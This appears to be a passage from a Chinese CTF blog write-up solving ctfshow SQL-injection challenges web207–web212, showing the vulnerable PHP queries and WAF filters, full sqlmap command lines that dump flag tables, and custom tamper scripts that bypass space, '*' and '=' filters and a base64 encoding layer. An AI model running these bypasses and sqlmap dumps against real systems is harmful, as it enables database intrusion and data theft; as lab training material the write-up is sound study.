<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment">//拼接sql语句查找指定ID用户</span></span><br><span class="line"><span class="variable">$sql</span> = <span class="string">&quot;select id,username,pass from ctfshow_user where id = (&#x27;&quot;</span>.<span class="variable">$id</span>.<span class="string">&quot;&#x27;) limit 0,1;&quot;</span>;  </span><br></pre></td></tr></table></figure>

<p>返回逻辑</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment">//对传入的参数进行了过滤</span></span><br><span class="line">  <span class="function"><span class="keyword">function</span> <span class="title">waf</span>(<span class="params"><span class="variable">$str</span></span>)</span>&#123;</span><br><span class="line">   <span class="keyword">return</span> <span class="title function_ invoke__">preg_match</span>(<span class="string">&#x27;/ /&#x27;</span>, <span class="variable">$str</span>);</span><br><span class="line">  &#125;</span><br></pre></td></tr></table></figure>

<h2 id="解题-110"><a href="#解题-110" class="headerlink" title="解题"></a>解题</h2><p>空格被过滤了，调用插件进行绕过。</p>
<p><code>--temper</code> 是用来调用插件的。</p>
<figure class="highlight bash"><table><tr><td class="code"><pre><span class="line">sqlmap -u <span class="string">&quot;http://62d55dbf-5237-4ab5-ad5a-031a7158681e.challenge.ctf.show/api/index.php&quot;</span> --data=<span class="string">&quot;id=1&quot;</span> -p <span class="built_in">id</span> --referer=ctf.show --user-agent=sqlmap --method=PUT --safe-url=<span class="string">&quot;http://62d55dbf-5237-4ab5-ad5a-031a7158681e.challenge.ctf.show/api/getToken.php&quot;</span> --safe-freq=1 --cookie=<span class="string">&quot;PHPSESSID=nefcc5lecojdi2lt0tmmhb82g3&quot;</span> --header=Content-Type:text/plain --prefix=<span class="string">&quot;&#x27;)&quot;</span> --suffix=<span class="string">&quot;#&quot;</span> --tamper=space2comment -D ctfshow_web -T ctfshow_flaxca --dump</span><br></pre></td></tr></table></figure>

<p>拆解：</p>
<figure class="highlight bash"><table><tr><td class="code"><pre><span class="line">sqlmap -u <span class="string">&quot;http://62d55dbf-5237-4ab5-ad5a-031a7158681e.challenge.ctf.show/api/index.php&quot;</span> </span><br><span class="line">--data=<span class="string">&quot;id=1&quot;</span> -p <span class="built_in">id</span> </span><br><span class="line">--referer=ctf.show --user-agent=sqlmap --method=PUT </span><br><span class="line">--safe-url=<span class="string">&quot;http://62d55dbf-5237-4ab5-ad5a-031a7158681e.challenge.ctf.show/api/getToken.php&quot;</span> </span><br><span class="line">--safe-freq=1 </span><br><span class="line">--cookie=<span class="string">&quot;PHPSESSID=nefcc5lecojdi2lt0tmmhb82g3&quot;</span> </span><br><span class="line">--header=Content-Type:text/plain </span><br><span class="line">--prefix=<span class="string">&quot;&#x27;)&quot;</span> --suffix=<span class="string">&quot;#&quot;</span> </span><br><span class="line">--tamper=space2comment </span><br><span class="line">-D ctfshow_web -T ctfshow_flaxca --dump</span><br></pre></td></tr></table></figure>

<p>其中，指定的是绕过空格限制的插件：</p>
<figure class="highlight bash"><table><tr><td class="code"><pre><span class="line">--tamper=space2comment </span><br></pre></td></tr></table></figure>


<h1 id="web208"><a href="#web208" class="headerlink" title="web208"></a>web208</h1><h2 id="原始信息-116"><a href="#原始信息-116" class="headerlink" title="原始信息"></a>原始信息</h2><p>查询语句</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment">//拼接sql语句查找指定ID用户</span></span><br><span class="line"><span class="variable">$sql</span> = <span class="string">&quot;select id,username,pass from ctfshow_user where id = (&#x27;&quot;</span>.<span class="variable">$id</span>.<span class="string">&quot;&#x27;) limit 0,1;&quot;</span>;  </span><br></pre></td></tr></table></figure>

<p>返回逻辑</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment">//对传入的参数进行了过滤</span></span><br><span class="line"><span class="comment">// $id = str_replace(&#x27;select&#x27;, &#x27;&#x27;, $id);</span></span><br><span class="line">  <span class="function"><span class="keyword">function</span> <span class="title">waf</span>(<span class="params"><span class="variable">$str</span></span>)</span>&#123;</span><br><span class="line">   <span class="keyword">return</span> <span class="title function_ invoke__">preg_match</span>(<span class="string">&#x27;/ /&#x27;</span>, <span class="variable">$str</span>);</span><br><span class="line">  &#125;</span><br></pre></td></tr></table></figure>

<h2 id="解题-111"><a href="#解题-111" class="headerlink" title="解题"></a>解题</h2><p>过滤空格+过滤关键字（双写过滤或者大小写过滤）</p>
<figure class="highlight bash"><table><tr><td class="code"><pre><span class="line">sqlmap -u <span class="string">&quot;http://560f987c-694e-4b8a-987b-7a47b192df74.challenge.ctf.show/api/index.php&quot;</span> --data=<span class="string">&#x27;id=1&#x27;</span> -p <span class="built_in">id</span> --referer=ctf.show --user-agent=sqlmap --method=PUT --safe-url=<span class="string">&quot;http://560f987c-694e-4b8a-987b-7a47b192df74.challenge.ctf.show/api/getToken.php&quot;</span> --safe-freq=1 --cookie=<span class="string">&quot;PHPSESSID=7fougrt46og3k2k6mms0rj7ru4&quot;</span> --header=Content-Type:text/plain --prefix=<span class="string">&quot;&#x27;)&quot;</span> --suffix=<span class="string">&quot;#&quot;</span> --tamper=randomcase,space2comment -D ctfshow_web -T ctfshow_flaxcac --dump</span><br></pre></td></tr></table></figure>

<p>拆解如下：</p>
<figure class="highlight bash"><table><tr><td class="code"><pre><span class="line">sqlmap -u <span class="string">&quot;http://560f987c-694e-4b8a-987b-7a47b192df74.challenge.ctf.show/api/index.php&quot;</span> </span><br><span class="line">--data=<span class="string">&#x27;id=1&#x27;</span> -p <span class="built_in">id</span> </span><br><span class="line">--referer=ctf.show --user-agent=sqlmap </span><br><span class="line">--method=PUT --safe-url=<span class="string">&quot;http://560f987c-694e-4b8a-987b-7a47b192df74.challenge.ctf.show/api/getToken.php&quot;</span> --safe-freq=1 </span><br><span class="line">--cookie=<span class="string">&quot;PHPSESSID=7fougrt46og3k2k6mms0rj7ru4&quot;</span> </span><br><span class="line">--header=Content-Type:text/plain </span><br><span class="line">--prefix=<span class="string">&quot;&#x27;)&quot;</span> --suffix=<span class="string">&quot;#&quot;</span> </span><br><span class="line">--tamper=randomcase,space2comment  <span class="comment"># 采用大小写+空格绕过脚本进行逃过</span></span><br><span class="line">-D ctfshow_web -T ctfshow_flaxcac --dump</span><br></pre></td></tr></table></figure>

<p>如果是双写绕过，就必须得自己去写一个脚本。自带脚本中没符合条件的脚本。</p>
<h1 id="web209"><a href="#web209" class="headerlink" title="web209"></a>web209</h1><h2 id="原始信息-117"><a href="#原始信息-117" class="headerlink" title="原始信息"></a>原始信息</h2><p><a target="_blank" rel="noopener" href="https://ctfshow.lanzoui.com/i4wlziac1de"> sqlmap最新版下载</a></p>
<p>–tamper 的3体验</p>
<p>查询语句</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment">//拼接sql语句查找指定ID用户</span></span><br><span class="line"><span class="variable">$sql</span> = <span class="string">&quot;select id,username,pass from ctfshow_user where id = &#x27;&quot;</span>.<span class="variable">$id</span>.<span class="string">&quot;&#x27; limit 0,1;&quot;</span>;  </span><br></pre></td></tr></table></figure>

<p>返回逻辑</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment">//对传入的参数进行了过滤</span></span><br><span class="line">  <span class="function"><span class="keyword">function</span> <span class="title">waf</span>(<span class="params"><span class="variable">$str</span></span>)</span>&#123;</span><br><span class="line">   <span class="comment">//TODO 未完工</span></span><br><span class="line">   <span class="keyword">return</span> <span class="title function_ invoke__">preg_match</span>(<span class="string">&#x27;/ |\*|\=/&#x27;</span>, <span class="variable">$str</span>);</span><br><span class="line">  &#125;</span><br></pre></td></tr></table></figure>

<h2 id="解题-112"><a href="#解题-112" class="headerlink" title="解题"></a>解题</h2><p>原本的过滤空格的脚本不能用了，并且得注意*和=这两种字符限制。</p>
<figure class="highlight bash"><table><tr><td class="code"><pre><span class="line">sqlmap -u <span class="string">&quot;http://c1c8f6d0-6da8-4e2b-80be-552e0ef987d6.challenge.ctf.show/api/index.php&quot;</span> --data <span class="string">&quot;id=1&quot;</span>  -p <span class="built_in">id</span> --referer <span class="string">&quot;ctf.show&quot;</span> --user-agent <span class="string">&quot;sqlmap&quot;</span> --method=PUT --header <span class="string">&quot;Content-Type: text/plain&quot;</span> --safe-url=<span class="string">&quot;http://c1c8f6d0-6da8-4e2b-80be-552e0ef987d6.challenge.ctf.show/api/getToken.php&quot;</span> --safe-freq=1 --cookie=<span class="string">&quot;PHPSESSID=p5iu0fer20qehd9h13qehcqs4d&quot;</span> --thread=10 --tamper <span class="string">&quot;doubleSelect2&quot;</span> -D ctfshow_web -T ctfshow_flav --dump</span><br></pre></td></tr></table></figure>

<p>拆解如下：</p>
<figure class="highlight bash"><table><tr><td class="code"><pre><span class="line">sqlmap </span><br><span class="line">-u <span class="string">&quot;http://c1c8f6d0-6da8-4e2b-80be-552e0ef987d6.challenge.ctf.show/api/index.php&quot;</span> </span><br><span class="line">--data <span class="string">&quot;id=1&quot;</span>  </span><br><span class="line">-p <span class="built_in">id</span> </span><br><span class="line">--referer <span class="string">&quot;ctf.show&quot;</span> </span><br><span class="line">--user-agent <span class="string">&quot;sqlmap&quot;</span> </span><br><span class="line">--method=PUT </span><br><span class="line">--header <span class="string">&quot;Content-Type: text/plain&quot;</span> </span><br><span class="line">--safe-url=<span class="string">&quot;http://c1c8f6d0-6da8-4e2b-80be-552e0ef987d6.challenge.ctf.show/api/getToken.php&quot;</span> </span><br><span class="line">--safe-freq=1 --cookie=<span class="string">&quot;PHPSESSID=p5iu0fer20qehd9h13qehcqs4d&quot;</span> </span><br><span class="line">--thread=10 </span><br><span class="line">--tamper <span class="string">&quot;doubleSelect2&quot;</span> </span><br><span class="line">-D ctfshow_web -T ctfshow_flav --dump</span><br></pre></td></tr></table></figure>

<p>而doubleSelect2的插件内容如下：</p>
<figure class="highlight python"><table><tr><td class="code"><pre><span class="line"><span class="comment">#!/usr/bin/env python</span></span><br><span class="line"></span><br><span class="line"><span class="string">&quot;&quot;&quot;</span></span><br><span class="line"><span class="string">Copyright (c) 2006-2023 sqlmap developers (https://sqlmap.org/)</span></span><br><span class="line"><span class="string">See the file &#x27;LICENSE&#x27; for copying permission</span></span><br><span class="line"><span class="string">&quot;&quot;&quot;</span></span><br><span class="line"></span><br><span class="line"><span class="keyword">from</span> lib.core.compat <span class="keyword">import</span> xrange</span><br><span class="line"><span class="keyword">from</span> lib.core.enums <span class="keyword">import</span> PRIORITY</span><br><span class="line"></span><br><span class="line">__priority__ = PRIORITY.LOW</span><br><span class="line"></span><br><span class="line"><span class="keyword">def</span> <span class="title function_">dependencies</span>():</span><br><span class="line">    <span class="keyword">pass</span></span><br><span class="line"></span><br><span class="line"><span class="keyword">def</span> <span class="title function_">tamper</span>(<span class="params">payload, **kwargs</span>):</span><br><span class="line">    retVal = payload</span><br><span class="line"></span><br><span class="line">    <span class="keyword">if</span> payload:</span><br><span class="line">        retVal = retVal.replace(<span class="string">&#x27; &#x27;</span>,<span class="built_in">chr</span>(<span class="number">0x0a</span>))</span><br><span class="line">        retVal = retVal.replace(<span class="string">&#x27;=&#x27;</span>,<span class="built_in">chr</span>(<span class="number">0x0a</span>)+<span class="string">&#x27;like&#x27;</span>+<span class="built_in">chr</span>(<span class="number">0x0a</span>))</span><br><span class="line"></span><br><span class="line"></span><br><span class="line">    <span class="keyword">return</span> retVal</span><br></pre></td></tr></table></figure>

<p>这次没有指定过滤select了。</p>
<h3 id="脚本2–其它博主的插件"><a href="#脚本2–其它博主的插件" class="headerlink" title="脚本2–其它博主的插件"></a>脚本2–其它博主的插件</h3><p>上面是脚本1，这个是取自其它博主的插件脚本：</p>
<figure class="highlight python"><table><tr><td class="code"><pre><span class="line"><span class="comment">#!/usr/bin/env python</span></span><br><span class="line"><span class="string">&quot;&quot;&quot;</span></span><br><span class="line"><span class="string">Author:孤桜懶契</span></span><br><span class="line"><span class="string">&quot;&quot;&quot;</span></span><br><span class="line"></span><br><span class="line"><span class="keyword">from</span> lib.core.compat <span class="keyword">import</span> xrange</span><br><span class="line"><span class="keyword">from</span> lib.core.enums <span class="keyword">import</span> PRIORITY</span><br><span class="line"><span class="keyword">from</span> lib.core.common <span class="keyword">import</span> singleTimeWarnMessage</span><br><span class="line"><span class="keyword">from</span> lib.core.enums <span class="keyword">import</span> DBMS</span><br><span class="line"></span><br><span class="line">__priority__ = PRIORITY.LOW</span><br><span class="line"></span><br><span class="line"><span class="keyword">def</span> <span class="title function_">dependencies</span>():</span><br><span class="line">    singleTimeWarnMessage(<span class="string">&quot;By孤桜懶契-空格替换制表符0x09,=号换like&quot;</span>)</span><br><span class="line"></span><br><span class="line"><span class="keyword">def</span> <span class="title function_">tamper</span>(<span class="params">payload, **kwargs</span>):</span><br><span class="line">    payload = space2comment(payload)</span><br><span class="line">    <span class="keyword">return</span> payload</span><br><span class="line"></span><br><span class="line"><span class="keyword">def</span> <span class="title function_">space2comment</span>(<span class="params">payload</span>):</span><br><span class="line">    retVal = payload</span><br><span class="line">    <span class="keyword">if</span> payload:</span><br><span class="line">        retVal = <span class="string">&quot;&quot;</span></span><br><span class="line">        quote, doublequote, firstspace = <span class="literal">False</span>, <span class="literal">False</span>, <span class="literal">False</span></span><br><span class="line"></span><br><span class="line">        <span class="keyword">for</span> i <span class="keyword">in</span> xrange(<span class="built_in">len</span>(payload)):</span><br><span class="line">            <span class="keyword">if</span> <span class="keyword">not</span> firstspace:</span><br><span class="line">                <span class="keyword">if</span> payload[i].isspace():</span><br><span class="line">                    firstspace = <span class="literal">True</span></span><br><span class="line">                    retVal += <span class="built_in">chr</span>(<span class="number">0x09</span>)</span><br><span class="line">                    <span class="keyword">continue</span></span><br><span class="line"></span><br><span class="line">            <span class="keyword">elif</span> payload[i] == <span class="string">&#x27;\&#x27;&#x27;</span>:</span><br><span class="line">                    quote = <span class="keyword">not</span> quote</span><br><span class="line"></span><br><span class="line">            <span class="keyword">elif</span> payload[i] == <span class="string">&#x27;&quot;&#x27;</span>:</span><br><span class="line">                    doublequote = <span class="keyword">not</span> doublequote</span><br><span class="line"></span><br><span class="line">            <span class="keyword">elif</span> payload[i] == <span class="string">&#x27;=&#x27;</span>:</span><br><span class="line">                    retVal += <span class="built_in">chr</span>(<span class="number">0x09</span>) + <span class="string">&#x27;like&#x27;</span> + <span class="built_in">chr</span>(<span class="number">0x09</span>)</span><br><span class="line">                    <span class="keyword">continue</span></span><br><span class="line"></span><br><span class="line">            <span class="keyword">elif</span> payload[i] == <span class="string">&quot;*&quot;</span>:</span><br><span class="line">                retVal += <span class="built_in">chr</span>(<span class="number">0x31</span>)</span><br><span class="line">                <span class="keyword">continue</span></span><br><span class="line"></span><br><span class="line">            <span class="keyword">elif</span> payload[i] == <span class="string">&quot; &quot;</span> <span class="keyword">and</span> <span class="keyword">not</span> doublequote <span class="keyword">and</span> <span class="keyword">not</span> quote:</span><br><span class="line">                    retVal += <span class="built_in">chr</span>(<span class="number">0x09</span>)</span><br><span class="line">                    <span class="keyword">continue</span></span><br><span class="line"></span><br><span class="line">            retVal += payload[i]</span><br><span class="line"></span><br><span class="line">    <span class="keyword">return</span> retVal</span><br></pre></td></tr></table></figure>

<h3 id="具体过滤绕过方式-限制方式"><a href="#具体过滤绕过方式-限制方式" class="headerlink" title="具体过滤绕过方式/限制方式"></a>具体过滤绕过方式/限制方式</h3><figure class="highlight python"><table><tr><td class="code"><pre><span class="line"><span class="comment"># 绕过空格限制的方案 </span></span><br><span class="line"><span class="built_in">chr</span>(<span class="number">0x0a</span>) <span class="comment"># 换行绕过</span></span><br><span class="line"><span class="built_in">chr</span>(<span class="number">0x09</span>) <span class="comment"># 制表符绕过</span></span><br><span class="line"></span><br><span class="line"><span class="comment"># 绕过等于号的操作</span></span><br><span class="line"><span class="built_in">chr</span>(<span class="number">0x09</span>)+<span class="string">&#x27;like&#x27;</span>+<span class="built_in">chr</span>(<span class="number">0x09</span>)		<span class="comment"># 使用空格字符+like进行绕过</span></span><br><span class="line"></span><br></pre></td></tr></table></figure>


<h1 id="web210"><a href="#web210" class="headerlink" title="web210"></a>web210</h1><h2 id="原始信息-118"><a href="#原始信息-118" class="headerlink" title="原始信息"></a>原始信息</h2><p><a target="_blank" rel="noopener" href="https://ctfshow.lanzoui.com/i4wlziac1de">sqlmap最新版下载</a></p>
<p>–tamper 的4体验</p>
<p>查询语句</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment">//拼接sql语句查找指定ID用户</span></span><br><span class="line"><span class="variable">$sql</span> = <span class="string">&quot;select id,username,pass from ctfshow_user where id = &#x27;&quot;</span>.<span class="variable">$id</span>.<span class="string">&quot;&#x27; limit 0,1;&quot;</span>;</span><br></pre></td></tr></table></figure>

<p>返回逻辑</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment">//对查询字符进行解密</span></span><br><span class="line">  <span class="function"><span class="keyword">function</span> <span class="title">decode</span>(<span class="params"><span class="variable">$id</span></span>)</span>&#123;</span><br><span class="line">    <span class="keyword">return</span> <span class="title function_ invoke__">strrev</span>(<span class="title function_ invoke__">base64_decode</span>(<span class="title function_ invoke__">strrev</span>(<span class="title function_ invoke__">base64_decode</span>(<span class="variable">$id</span>))));</span><br><span class="line">  &#125;</span><br></pre></td></tr></table></figure>

<h2 id="解题-113"><a href="#解题-113" class="headerlink" title="解题"></a>解题</h2><p>解题如下：</p>
<figure class="highlight bash"><table><tr><td class="code"><pre><span class="line">sqlmap -u <span class="string">&quot;http://c1239d77-cd27-4386-94b2-464bf63b1a89.challenge.ctf.show/api/index.php&quot;</span> --referer <span class="string">&quot;ctf.show&quot;</span> --user-agent <span class="string">&quot;sqlmap&quot;</span> --header <span class="string">&quot;Content-Type: text/plain&quot;</span> --tamper <span class="string">&quot;doubleSelect3&quot;</span> --safe-url <span class="string">&quot;http://c1239d77-cd27-4386-94b2-464bf63b1a89.challenge.ctf.show/api/getToken.php&quot;</span> --cookie <span class="string">&quot;PHPSESSID=p99bbqmls2uh7dr1eukpmda12e&quot;</span> --method <span class="string">&quot;PUT&quot;</span> --data <span class="string">&quot;id=1&quot;</span> -p <span class="built_in">id</span> --thread=10 --safe-freq=1 -D ctfshow_web -T ctfshow_flavi --dump</span><br></pre></td></tr></table></figure>

<p>拆解如下：</p>
<figure class="highlight bash"><table><tr><td class="code"><pre><span class="line">sqlmap -u <span class="string">&quot;http://c1239d77-cd27-4386-94b2-464bf63b1a89.challenge.ctf.show/api/index.php&quot;</span> </span><br><span class="line">--referer <span class="string">&quot;ctf.show&quot;</span> </span><br><span class="line">--user-agent <span class="string">&quot;sqlmap&quot;</span> </span><br><span class="line">--header <span class="string">&quot;Content-Type: text/plain&quot;</span> </span><br><span class="line">--tamper <span class="string">&quot;doubleSelect3&quot;</span> </span><br><span class="line">--safe-url <span class="string">&quot;http://c1239d77-cd27-4386-94b2-464bf63b1a89.challenge.ctf.show/api/getToken.php&quot;</span> </span><br><span class="line">--cookie <span class="string">&quot;PHPSESSID=p99bbqmls2uh7dr1eukpmda12e&quot;</span> </span><br><span class="line">--method <span class="string">&quot;PUT&quot;</span></span><br><span class="line">--data <span class="string">&quot;id=1&quot;</span> </span><br><span class="line">-p <span class="built_in">id</span> </span><br><span class="line">--thread=10 </span><br><span class="line">--safe-freq=1 </span><br><span class="line">-D ctfshow_web </span><br><span class="line">-T ctfshow_flavi </span><br><span class="line">--dump</span><br></pre></td></tr></table></figure>

<p>对应的插件 <code>doubleSelect3</code> 内容：</p>
<figure class="highlight python"><table><tr><td class="code"><pre><span class="line"><span class="comment">#!/usr/bin/env python</span></span><br><span class="line"></span><br><span class="line"><span class="string">&quot;&quot;&quot;</span></span><br><span class="line"><span class="string">Copyright (c) 2006-2023 sqlmap developers (https://sqlmap.org/)</span></span><br><span class="line"><span class="string">See the file &#x27;LICENSE&#x27; for copying permission</span></span><br><span class="line"><span class="string">&quot;&quot;&quot;</span></span><br><span class="line"></span><br><span class="line"><span class="keyword">from</span> lib.core.compat <span class="keyword">import</span> xrange</span><br><span class="line"><span class="keyword">from</span> lib.core.enums <span class="keyword">import</span> PRIORITY</span><br><span class="line"><span class="keyword">import</span> base64</span><br><span class="line"></span><br><span class="line">__priority__ = PRIORITY.LOW</span><br><span class="line"></span><br><span class="line"><span class="keyword">def</span> <span class="title function_">dependencies</span>():</span><br><span class="line">    <span class="keyword">pass</span></span><br><span class="line"></span><br><span class="line"><span class="keyword">def</span> <span class="title function_">encode</span>(<span class="params">a</span>):</span><br><span class="line">    a1 = a.encode(<span class="string">&#x27;utf-8&#x27;</span>)[::-<span class="number">1</span>]</span><br><span class="line">    a2 = base64.b64encode(a1)[::-<span class="number">1</span>]</span><br><span class="line">    a3 = base64.b64encode(a2)</span><br><span class="line">    <span class="keyword">return</span> a3.decode(<span class="string">&#x27;utf-8&#x27;</span>)</span><br><span class="line"></span><br><span class="line"><span class="keyword">def</span> <span class="title function_">tamper</span>(<span class="params">payload, **kwargs</span>):</span><br><span class="line">    retVal = payload</span><br><span class="line"></span><br><span class="line">    <span class="keyword">if</span> payload:</span><br><span class="line">        retVal = encode(retVal)</span><br><span class="line"></span><br><span class="line">    <span class="keyword">return</span> retVal</span><br></pre></td></tr></table></figure>

<p>其中核心函数是这个，是对应上面php的反函数。</p>
<figure class="highlight python"><table><tr><td class="code"><pre><span class="line"><span class="keyword">import</span> base64</span><br><span class="line"></span><br><span class="line"><span class="keyword">def</span> <span class="title function_">encode</span>(<span class="params">a</span>):</span><br><span class="line">    a1 = a.encode(<span class="string">&#x27;utf-8&#x27;</span>)[::-<span class="number">1</span>]</span><br><span class="line">    a2 = base64.b64encode(a1)[::-<span class="number">1</span>]</span><br><span class="line">    a3 = base64.b64encode(a2)</span><br><span class="line">    <span class="keyword">return</span> a3.decode(<span class="string">&#x27;utf-8&#x27;</span>)</span><br></pre></td></tr></table></figure>


<h1 id="web211"><a href="#web211" class="headerlink" title="web211"></a>web211</h1><h2 id="原始信息-119"><a href="#原始信息-119" class="headerlink" title="原始信息"></a>原始信息</h2><p><a target="_blank" rel="noopener" href="https://ctfshow.lanzoui.com/i4wlziac1de"> sqlmap最新版下载</a></p>
<p>–tamper 的5体验</p>
<p>查询语句</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment">//拼接sql语句查找指定ID用户</span></span><br><span class="line"><span class="variable">$sql</span> = <span class="string">&quot;select id,username,pass from ctfshow_user where id = &#x27;&quot;</span>.<span class="variable">$id</span>.<span class="string">&quot;&#x27; limit 0,1;&quot;</span>;     </span><br></pre></td></tr></table></figure>

<p>返回逻辑</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment">//对查询字符进行解密</span></span><br><span class="line">  <span class="function"><span class="keyword">function</span> <span class="title">decode</span>(<span class="params"><span class="variable">$id</span></span>)</span>&#123;</span><br><span class="line">    <span class="keyword">return</span> <span class="title function_ invoke__">strrev</span>(<span class="title function_ invoke__">base64_decode</span>(<span class="title function_ invoke__">strrev</span>(<span class="title function_ invoke__">base64_decode</span>(<span class="variable">$id</span>))));</span><br><span class="line">  &#125;</span><br><span class="line"><span class="function"><span class="keyword">function</span> <span class="title">waf</span>(<span class="params"><span class="variable">$str</span></span>)</span>&#123;</span><br><span class="line">    <span class="keyword">return</span> <span class="title function_ invoke__">preg_match</span>(<span class="string">&#x27;/ /&#x27;</span>, <span class="variable">$str</span>);</span><br><span class="line">&#125;</span><br></pre></td></tr></table></figure>

<h2 id="解题-114"><a href="#解题-114" class="headerlink" title="解题"></a>解题</h2><p>payload如下：</p>
<figure class="highlight bash"><table><tr><td class="code"><pre><span class="line">sqlmap -u <span class="string">&quot;http://f0cc92a6-822f-465c-93cf-d05a191e41db.challenge.ctf.show/api/index.php&quot;</span> --referer <span class="string">&quot;ctf.show&quot;</span> --user-agent <span class="string">&quot;sqlmap&quot;</span> --method <span class="string">&quot;PUT&quot;</span> --header <span class="string">&quot;Content-Type: text/plain&quot;</span> --safe-url <span class="string">&quot;http://f0cc92a6-822f-465c-93cf-d05a191e41db.challenge.ctf.show/api/getToken.php&quot;</span> --safe-freq=1 --cookie <span class="string">&quot;PHPSESSID=nnu00gqpmvheonprhdqi36s4d3&quot;</span> --tamper <span class="string">&quot;space2comment,doubleSelect3&quot;</span> --thread=10 --data <span class="string">&quot;id=1&quot;</span> -p <span class="built_in">id</span> -D ctfshow_web -T ctfshow_flavia --dump</span><br></pre></td></tr></table></figure>

<p>拆解如下：</p>
<figure class="highlight bash"><table><tr><td class="code"><pre><span class="line">sqlmap -u <span class="string">&quot;http://f0cc92a6-822f-465c-93cf-d05a191e41db.challenge.ctf.show/api/index.php&quot;</span> </span><br><span class="line">--referer <span class="string">&quot;ctf.show&quot;</span> </span><br><span class="line">--user-agent <span class="string">&quot;sqlmap&quot;</span> </span><br><span class="line">--method <span class="string">&quot;PUT&quot;</span> </span><br><span class="line">--header <span class="string">&quot;Content-Type: text/plain&quot;</span> </span><br><span class="line">--safe-url <span class="string">&quot;http://f0cc92a6-822f-465c-93cf-d05a191e41db.challenge.ctf.show/api/getToken.php&quot;</span> </span><br><span class="line">--safe-freq=1 </span><br><span class="line">--cookie <span class="string">&quot;PHPSESSID=nnu00gqpmvheonprhdqi36s4d3&quot;</span> </span><br><span class="line">--tamper <span class="string">&quot;space2comment,doubleSelect3&quot;</span> </span><br><span class="line">--thread=10 </span><br><span class="line">--data <span class="string">&quot;id=1&quot;</span> </span><br><span class="line">-p <span class="built_in">id</span> </span><br><span class="line">-D ctfshow_web </span><br><span class="line">-T ctfshow_flavia </span><br><span class="line">--dump</span><br></pre></td></tr></table></figure>

<p>这里插件 <code>doubleSelect3</code> 的内容和上一道题目一样，而 <code>space2comment</code> 是 <code>sqlmap</code> 自带的空格替换脚本。</p>
<h1 id="web212"><a href="#web212" class="headerlink" title="web212"></a>web212</h1><h2 id="原始信息-120"><a href="#原始信息-120" class="headerlink" title="原始信息"></a>原始信息</h2><p><a target="_blank" rel="noopener" href="https://ctfshow.lanzoui.com/i4wlziac1de"> sqlmap最新版下载</a></p>
<p>–tamper 的6体验</p>
<p>查询语句</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment">//拼接sql语句查找指定ID用户</span></span><br><span class="line"><span class="variable">$sql</span> = <span class="string">&quot;select id,username,pass from ctfshow_user where id = &#x27;&quot;</span>.<span class="variable">$id</span>.<span class="string">&quot;&#x27; limit 0,1;&quot;</span>;</span><br></pre></td></tr></table></figure>

<p>返回逻辑</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment">//对查询字符进行解密</span></span><br><span class="line">  <span class="function"><span class="keyword">function</span> <span class="title">decode</span>(<span class="params"><span class="variable">$id</span></span>)</span>&#123;</span><br><span class="line">    <span class="keyword">return</span> <span class="title function_ invoke__">strrev</span>(<span class="title function_ invoke__">base64_decode</span>(<span class="title function_ invoke__">strrev</span>(<span class="title function_ invoke__">base64_decode</span>(<span class="variable">$id</span>))));</span><br><span class="line">  &#125;</span><br><span class="line"><span class="function"><span class="keyword">function</span> <span class="title">waf</span>(<span class="params"><span class="variable">$str</span></span>)</span>&#123;</span><br><span class="line">    <span class="keyword">return</span> <span class="title function_ invoke__">preg_match</span>(<span class="string">&#x27;/ |\*/&#x27;</span>, <span class="variable">$str</span>);</span><br><span class="line">&#125;</span><br></pre></td></tr></table></figure>

<h2 id="解题-115"><a href="#解题-115" class="headerlink" title="解题"></a>解题</h2><p>对应的payload：</p>
<figure class="highlight bash"><table><tr><td class="code"><pre><span class="line">sqlmap -u <span class="string">&quot;http://e25daf80-dde3-456e-9caa-cf2a7376563f.challenge.ctf.show/api/index.php&quot;</span> --referer <span class="string">&quot;ctf.show&quot;</span> --user-agent <span class="string">&quot;sqlmap&quot;</span> --method <span class="string">&quot;PUT&quot;</span> --header <span class="string">&quot;Content-Type: text/plain&quot;</span> --safe-url <span class="string">&quot;http://e25daf80-dde3-456e-9caa-cf2a7376563f.challenge.ctf.show/api/getToken.php&quot;</span> --safe-freq=1 --cookie <span class="string">&quot;PHPSESSID=hvuvn395uososd4l6dtivqcrag&quot;</span> --tamper <span class="string">&quot;doubleSelect2,doubleSelect3&quot;</span> --thread=10 --data <span class="string">&quot;id=1&quot;</span> -p <span class="built_in">id</span> -D ctfshow_web -T ctfshow_flavis --dump</span><br></pre></td></tr></table></figure>

<p>拆解如下：</p>
<figure class="highlight bash"><table><tr><td class="code"><pre><span class="line">sqlmap -u <span class="string">&quot;http://e25daf80-dde3-456e-9caa-cf2a7376563f.challenge.ctf.show/api/index.php&quot;</span> </span><br><span class="line">--referer <span class="string">&quot;ctf.show&quot;</span> </span><br><span class="line">--user-agent <span class="string">&quot;sqlmap&quot;</span> </span><br><span class="line">--method <span class="string">&quot;PUT&quot;</span> </span><br><span class="line">--header <span class="string">&quot;Content-Type: text/plain&quot;</span> </span><br><span class="line">--safe-url <span class="string">&quot;http://e25daf80-dde3-456e-9caa-cf2a7376563f.challenge.ctf.show/api/getToken.php&quot;</span> </span><br><span class="line">--safe-freq=1 </span><br><span class="line">--cookie <span class="string">&quot;PHPSESSID=hvuvn395uososd4l6dtivqcrag&quot;</span> </span><br><span class="line">--tamper <span class="string">&quot;doubleSelect2,doubleSelect3&quot;</span> </span><br><span class="line">--thread=10 </span><br><span class="line">--data <span class="string">&quot;id=1&quot;</span> </span><br><span class="line">-p <span class="built_in">id</span> </span><br><span class="line">-D ctfshow_web </span><br><span class="line">-T ctfshow_flavis </span><br><span class="line">--dump</span><br></pre></td></tr></table></figure>


<p>两个插件脚本如下(也就是之前写题的脚本)：</p>
<p><code>doubleSelect2.py</code></p>
